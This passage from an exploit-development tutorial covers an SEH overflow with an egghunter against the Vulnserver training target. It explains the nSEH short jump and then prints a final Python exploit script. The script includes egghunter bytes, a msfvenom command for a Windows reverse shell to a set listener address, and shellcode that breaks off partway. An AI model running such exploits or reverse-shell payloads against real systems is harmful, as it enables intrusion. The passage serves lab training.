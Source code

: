 
<p align = "center">
<img src = "https://i.imgur.com/tRgUMxp.png">
</p>





In this case you can see we will jump from memory address ***0237FFC4*** down to ***0237FFCC*** which will be where our Egghunter will sit. 



Now here we would just overwrite the address of **nSEH** with ***0237FFCC*** but like I said it's not very practical, and it is better practice to just do a simple short jump aka opcode `EB` - However there is a small twist. the `EB` instruction is only **2 Bytes** and **nSEH** expects **4 Bytes.**



This isn't a huge problem as we can simple just use `NOPS` aka `\x90` so what we will do here is fill **nSEH** with `\x90\x90` which means **2/4 bytes** are full followed by our `EB` instruction `\xeb\x06` which stands for jump 6 bytes.  Now **4/4 bytes** are filled within **nSEH** 



Our exploit will now technically jump **8 Bytes** but we only need to jump **6 Bytes** as we are *really* just *sliding* down the **NOPS** so 6 bytes is all that's required.



Great so now update our **nSEH** variable in our exploit to reflect the below



```python
nseh = "\xeb\x06\x90\x90"
```



Of course **little endian** is the reason once again for the reverse order. 





**Final Exploit**



```python
#!/usr/bin/python
import socket
import sys

#Vulnserver GMON SEH Overflow w/ Egghunter
#Author: m0chan
#Date: 28/08/2019

nseh = "\xeb\x06\x90\x90" #0x909006be - nop,nop,jump 6 bytes with EB into egghunter
seh = "\xb4\x10\x50\x62" #0x625010br pop,pop,ret

eggnops = "\x90\x90\x90\x90\x90\x90\x90\x90"

egghunter = (
"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x74\x65\x65\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

egg = 'MOCHMOCH'

#msfvenom -p windows/shell_reverse_tcp LHOST=172.16.10.171 LPORT=443 -e x86/shikata_ga_nai EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x80\x0a\x0c\x0d"

shellcode = (
"\xda\xc4\xbf\xcf\xa2\xc0\xf1\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x52\x83\xeb\xfc\x31\x7b\x13\x03\xb4\xb1\x22\x04\xb6\x5e\x20"
"\xe7\x46\x9f\x45\x61\xa3\xae\x45\x15\xa0\x81\x75\x5d\xe4\x2d"
```